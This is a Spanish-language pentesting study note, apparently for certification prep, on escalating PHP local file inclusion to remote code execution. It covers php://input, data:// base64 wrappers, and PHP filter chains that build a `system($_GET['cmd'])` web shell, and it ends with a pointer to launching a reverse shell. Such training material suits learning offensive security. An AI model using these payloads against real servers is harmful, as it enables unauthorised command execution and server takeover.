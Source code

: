 # RCE a través de LFI


# Metodo 1

Con Burpsuite, en el repeater. Si hacemos clic derecho y cambiamos el tipo de petición de GET a POST (para no arrastrar errores al hacerlo manual) y escribimos:
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi3.png" />

```
Justo después de POST
/?filename=php://input

Dependerá de la variable, en este caso en el index está definido filename pero normalmente debería figurar algo como "page"
```

Ahora debajo de la cabecera escribimos:
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi4.png" />

```
<?php system("whoami"); ?>
```

En la respuesta veremos:

<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi5.png" />


# Metodo 2

En una petición por GET añadimos:
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi6.png" /> 
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi7.png" /> 

```
/?filename=data://text/plain;base64,la_cadena_anterior_en_base_64&cmd=whoami
```

Destacar que una vez pegado en codigo en base64, hay que hacer Ctrl+U para URLencodear el comando, ya que el "+" que hay al final en base64 significa un " " y lo interpretará mal y no funcionará.
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi8.png" />  
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi9.png" /> 

# Metodo 3

Con la herramienta php filter chain generator, automatizamos un modo de introducir caracteres, de manera que podriamos codificar una conversion de caracteres, que el navegador llegaría a interpretar y ejecutaría comandos. El uso es el siguiente:

```
php_filter_chain_generator-py --chain 'cadema de caracteres'
```
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi10.png" /> 

ahora esta cadena la pegamos en el navegador de la siguiente manera:
```  
detrás de filename, page o lo que corresponda
localhost/?filename=todo el churraco
```

Cosa que nos devuelve el resultado del comando
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi11.png" />  

# Metodo 3.1

de manera mas comoda, se podría incluir un GET cmd para incluir el comando al final del churraco en la barra del navegador.

Con la herramienta, codificamos:
```
php_filter_chain_generator-py --chain '<?php system($_GET["cmd"]); ?>'
```

<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi12.png" />  

Pegamos la cadena resultante y añadimos al final de la cadena:
```
CADENA&cmd=id
```
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi13.png" />  

así que de esta manera podríamos en lugar de id, lanzar una reverse shell.

**OJO, CONVIENE URLENCODEAR LA REVERSE SHELL, O ALMENOS LOS "&"**

https://github.com/synacktiv/php_filter_chain_generator

